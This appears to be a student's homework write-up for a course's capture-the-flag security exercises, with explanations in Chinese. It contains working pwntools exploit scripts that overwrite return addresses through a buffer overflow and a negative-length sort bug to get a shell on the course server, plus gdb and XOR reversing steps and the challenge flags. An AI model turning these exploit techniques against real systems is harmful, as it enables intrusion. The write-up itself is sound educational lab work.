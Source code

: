 # Program Security Hw00

### HelloWorld

```
Just copy past!!

FLAG{Hello CTF}
```

### Pwn1

直接將Return Address蓋掉即可

```python=
#!/usr/bin/env python

from pwn import *

r = remote('csie.ctf.tw', 10120)

payload = '0123456789012345678901234567890100000000'
+ '\x66\x05\x40\x00\x00\x00\x00\x00'

r.sendline(payload)
r.interactive()
```
```
Get Shell!
$ cd /home/pwn1 && cat flag

FLAG{BuFFer_0V3Rflow_is_too_easy}
```


### BubbleSort
在要求輸入需要sort幾個elment的部分發現輸入負數會導致程式進行overflow的sort
因此，我們可利用這個漏洞來達到將return address置換成我們所需要的值。

```python=
#!/usr/bin/env python
#
from pwn import *

payload = '127' + '\n' + '134514048 '
 + '0 ' * 126 + '\n' + '-125\n'

r = remote('csie.ctf.tw', 10121)
r.sendline(payload)
r.interactive()
```
```
Get Shell!!
$ cd /home/BubbleSort && cat flag

FLAG{Bubble_sort_is_too_slow_and_this_question_is_too_easy}
```

### Rev1
```
# Entering gdb console

$ gdb rev1
(gdb) break main
(gdb) r
(gdb) call print_flag()

FLAG{_reverse_is_fun}
```

### Rev2

查詢"Try harder" 在哪邊被使用過
之後找到一連串的xor以及cmp instruction
做Reverse之後得到flag

詳細如下

#### 0x401101
```
loc_401101:             ; uType
push    30h
push    offset Caption  ; lpCaption
push    offset aTryHarder ; "Try harder!"
push    0               ; hWnd
call    ds:MessageBoxA
mov     eax, 1

...

```

![](https://i.imgur.com/O8BPyZW.png)

#### unk_4120BC 
```
    0x8a808d8bb794fcbe93b8a3938fbef8afa79381ffb1 
    
    xor with 0xccccccc...
    
    Get flag FLAG{X0r_to_Cr4ck_M3}
```
    
